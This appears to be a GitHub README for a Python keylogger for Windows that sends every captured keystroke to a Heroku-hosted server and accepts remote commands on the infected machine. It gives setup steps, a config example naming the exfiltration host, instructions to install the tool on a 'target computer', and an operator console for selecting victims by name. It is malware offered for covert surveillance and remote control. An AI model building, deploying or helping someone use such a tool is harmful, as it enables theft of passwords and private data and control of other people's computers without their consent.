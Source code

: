 # Keylogger

Keylogger for Windows created in Python. This application not only captures the keys like any other Keylogger, but also has the functionality to execute commands on the target computer and more.

# Getting Started:

**Requirements:**

- Python 3
- Dependencies installed

To install the dependencies, type the command: `pip install -r requirements.txt`

After that, start the server at `server/server.py` (it is already configured to run on Heroku).

# Setting and running keylogger:

Open the `app/config /config.json` file and enter the server URL in the **host** key. See the example below:
```
{
    "host": "https://keylogger-app-37456.herokuapp.com/"
}
```

Once configured, install the **keylogger** on the target computer and run. After that, all the keys pressed by the 
user will be read and sent to the server and the application will be ready to receive and execute your commands.

# Getting the keys and executing commands:

To read keys and execute commands on the target computer, run `app/terminal.py` and select a user using
the `select` command. See the example below:

```
In: users

John Gamer
KatarinaMid_273
Victor34

In: select KatarinaMid_273
In: keylogger
```

Type `help` to see all available commands.
